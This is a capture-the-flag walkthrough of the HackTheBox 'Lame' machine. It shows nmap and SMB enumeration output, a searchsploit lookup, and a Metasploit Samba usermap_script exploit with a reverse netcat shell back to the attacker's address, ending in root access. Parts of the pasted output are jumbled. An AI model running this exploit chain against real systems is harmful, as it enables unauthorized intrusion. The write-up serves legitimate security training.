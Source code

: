 HackTHeBox- Lame by Keenan Williams

I start with a NMAP. I  used -Pn because my initial scan did not go through so I  had to get an aggressive scan going.
# Nmap 7.91 scan initiated Sat Oct 30 16:42:48 2021 as: nmap -A -T5 -sC -sV -Pn -oN intialscan.txt 10.10.10.3
Nmap scan report for 10.10.10.3
Host is up (0.0092s latency).
Not shown: 996 filtered ports
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
| STAT:
| FTP server status:
| Connected to 10.10.14.37
| Logged in as ftp
| TYPE: ASCII
| No session bandwidth limit
| Session timeout in seconds is 300
| Control connection is plain text
| Data connections will be plain text
| vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp open ssh OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
| 1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_ 2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Host script results:
|_clock-skew: mean: 2h00m10s, deviation: 2h49m45s, median: 8s
| smb-os-discovery:
| OS: Unix (Samba 3.0.20-Debian)
| Computer name: lame
| NetBIOS computer name:
| Domain name: hackthebox.gr
| FQDN: lame.hackthebox.gr
|_ System time: 2021-10-30T16:43:16-04:00
| smb-security-mode:
| account_used: <blank>
| authentication_level: user
| challenge_response: supported
|_ message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct 30 16:43:43 2021 -- 1 IP address (1 host up) scanned in 55.75 seconds

I notice the smb ports are open so I chose that for my vein of attack.
139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
I enumerate SMB a bit further with a another nmap scan + smbmap 

─$ nmap -A -T5 -sC -sV -p445,139 -Pn -oN smb.txt 10.10.10.3
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-31 13:56 EDT
Nmap scan report for 10.10.10.3
Host is up (0.010s latency).
PORT STATE SERVICE
VERSION
139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup:
WORKGROUP)
445/tcp open netbios-ssn Samba smbd 3.0.20-Debian (workgroup:
WORKGROUP)
Host script results:
|_clock-skew: mean: -5h17m15s, deviation: 2h49m43s, median: -7h17m16s
| smb-os-discovery:
| OS: Unix (Samba 3.0.20-Debian)
| Computer name: lame
| NetBIOS computer name:
| Domain name: hackthebox.gr
| FQDN: lame.hackthebox.gr
|_ System time: 2021-10-31T06:39:51-04:00
| smb-security-mode:
| account_used: <blank>
| authentication_level: user
| challenge_response: supported
|_ message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.26 seconds


smb enumeration
──(root kali)-[/home/keenan/Desktop/HTB/Lame]
└─# smbmap -H 10.10.10.3 2 ⨯ 1 ⚙
[+] IP: 10.10.10.3:445 Name: 10.10.10.3
Disk Permissions Comment
---- ----------- -------
print$ NO ACCESS Printer Drivers
tmp READ, WRITE oh noes!
opt NO ACCESS
IPC$ NO ACCESS IPC Service (lame server (Samba 3.0.20-Debian))
ADMIN$ NO ACCESS IPC Service (lame server (Samba 3.0.20-Debian))I


SMBCLIENT was having difficulty connecting. After some googling a quick solution was found since this is running samaba 3.0.20 I can use the following command for smb
accesss
“smbclient -N //10.10.10.3/tmp --option='client min protocol=NT1'



──(root kali)-[/home/keenan/Desktop/HTB/Lame]
└─# smbclient -N //10.10.10.3/tmp --option='client min
protocol=NT1' 1 ⚙
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> dir
. D 0 Sun Oct 31 06:43:52 2021
.. DR 0 Sat Oct 31 02:33:58 2020
distcc_e456e36d.stdout R 0 Sat Oct 30 20:29:33 2021
orbit-makis DR 0 Sun Oct 31 06:25:31 2021
distcc_e456e36d.stderr R 57 Sat Oct 30 20:30:29 2021
distccd_e456e36d.o R 0 Sat Oct 30 20:29:33 2021
linpeas.sh AR 631750 Sat Oct 30 20:36:47 2021
.ICE-unix DH 0 Sat Oct 30 16:39:29 2021
vmware-root DR 0 Sat Oct 30 16:39:50 2021
.X11-unix DH 0 Sat Oct 30 16:39:54 2021
gconfd-makis DR 0 Sun Oct 31 06:25:31 2021
.X0-lock HR 11 Sat Oct 30 16:39:54 2021
show R 0 Sat Oct 30 20:52:52 2021
distccd_e456e36d.i R 10 Sat Oct 30 20:29:33 2021
5564.jsvc_up R 0 Sat Oct 30 16:40:31 2021
vgauthsvclog.txt.0 R 1600 Sat Oct 30 16:39:28 2021
7282168 blocks of size 1024. 5385828 blocks available
smb: \> get vgauthsvclog.txt.0
Login successfull but nothing seems to be here

I then use searchsploit to find an exploit 
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.26 seconds
┌──(keenan㉿kali)-[~/Desktop/HTB/Lame]
└─$ searchsploit samba 3.0.20
------------------------------------------------------------------------------------------------------------------------------------------------------------
---------------------------------
Exploit Title | Path
------------------------------------------------------------------------------------------------------------------------------------------------------------
---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass |
multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution
(Metasploit) | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow | linux/
remote/7701.txt
Samba < 3.0.20 - Remote Heap Overflow | linux/
remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC) |
linux_x86/dos/36741.py
THIS exploit can be done via Metasploit 

Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution
(Metasploit) | unix/remote/16320.rb

msf5 exploit(multi/samba/usermap_script) > options
Module options (exploit/multi/samba/usermap_script):
Name Current Setting Required Description
---- --------------- -------- -----------
RHOSTS 10.10.10.3 yes The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
RPORT 139 yes The target port (TCP)
Payload options (cmd/unix/reverse_netcat):
Name Current Setting Required Description
---- --------------- -------- -----------
LHOST 10.10.14.37 yes The listen address (an interface may be specified)
LPORT 443 yes The listen port
After confiming the settings  I did manage to get a shell.
Exploit target:
Id Name
-- ----
0 Als
bin
boot
cdrom
dev
etc
home
initrd
initrd.img
initrd.img.old
lib
lost+found
media
mnt
nohup.out
opt
proc
root
sbin
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
whoami
root
cd ..
ls
Desktop
reset_
root.txt- And here is the flag.!!!!
